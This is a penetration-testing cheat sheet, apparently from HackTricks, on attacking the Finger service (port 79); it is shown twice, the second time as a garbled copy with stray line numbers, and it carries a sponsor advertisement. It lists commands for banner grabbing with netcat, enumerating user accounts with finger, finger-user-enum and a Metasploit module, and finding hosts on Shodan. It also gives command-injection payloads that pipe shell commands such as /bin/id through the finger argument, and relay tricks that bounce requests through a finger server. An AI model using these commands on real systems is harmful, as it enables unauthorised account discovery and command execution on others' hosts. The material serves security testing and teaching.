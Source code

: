 # 79 - Pentesting Finger

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Basic Info**

The **Finger** program/service is utilized for retrieving details about computer users. Typically, the information provided includes the **user's login name, full name**, and, in some cases, additional details. These extra details could encompass the office location and phone number (if available), the time the user logged in, the period of inactivity (idle time), the last instance mail was read by the user, and the contents of the user's plan and project files.

**Default port:** 79

```
PORT   STATE SERVICE
79/tcp open  finger
```

## **Enumeration**

### **Banner Grabbing/Basic connection**

```bash
nc -vn <IP> 79
echo "root" | nc -vn <IP> 79
```

### **User enumeration**

```bash
finger @<Victim>       #List users
finger admin@<Victim>  #Get info of user
finger user@<Victim>   #Get info of user
```

Alternatively you can use **finger-user-enum** from [**pentestmonkey**](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum), some examples:

```bash
finger-user-enum.pl -U users.txt -t 10.0.0.1
finger-user-enum.pl -u root -t 10.0.0.1
finger-user-enum.pl -U users.txt -T ips.txt
```

#### **Nmap execute a script for doing using default scripts**

### Metasploit uses more tricks than Nmap

```
use auxiliary/scanner/finger/finger_users
```

### Shodan

* `port:79 USER`

## Command execution

```bash
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

[Use a system as a finger relay](https://securiteam.com/exploits/2BUQ2RFQ0I/)

```
finger user@host@victim
finger @internal@external
```

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

Finger
Finger usually uses port 79
What is Finger?
Finger is a program you can use to find information about computer users. It usually lists the login name, the full name, and possibly other details about the user you are fingering. These details may include the office location and phone number (if known), login time, idle time, time mail was last read, and the user’s plan and project files.
1
2
	PORT     STATE SERVICE               VERSION
79/tcp   open  fing                  Debian fingerd 

Finger Pentesting
  Shodan search query :
port:79
Banner Grabbing
1
2
	nc -vn 10.10.x.x 79
echo "root" | nc -vn 10.10.x.x 79

Finger Credentials
User Enumeration
1
2
3
4
5
6
7
8
9
10
11
	finger @10.10.x.x      #List users
finger admin@10.10.x.x #Get info of user
finger user@10.10.x.x  #Get info of user

#########
finger admin@192.186.x.x 
Login: admin                            Name: Jhon Doe 
Directory: /home/admin                  Shell: /bin/bash 
Never logged in. 
No mail. 
No Plan.

Alternatively you can use finger-user-enum from pentestmonkey, some examples:
Download script and run it with a wordlist: HERE
finger-user-enum.pl is a tool for enumerating OS-level user accounts via the finger service. As of release v1.0 it is known to work against the default Solaris daemon. It may not yet work against all daemons since there is no defined format for the data returned by the finger service.
1
2
3
	finger-user-enum.pl -U users.txt -t 10.10.x.x
finger-user-enum.pl -u root -t 10.10.x.x
finger-user-enum.pl -U users.txt -T ips.txt
![image](https://github.com/user-attachments/assets/ef912cf9-52f9-4d69-be2d-890d2bd01352)

 
Metasploit module for user enumeration
1
	msf > use auxiliary/scanner/finger/finger_users
![image](https://github.com/user-attachments/assets/ed67d4c4-e215-4d67-8ebb-9378370eb283)

 
Code Execution
1
2
	finger "|/bin/id@10.10.x.x"
finger "|/bin/ls -a /@10.10.x.x"

Finger Bounce
1
2
	finger user@host@victim
finger @internal@external



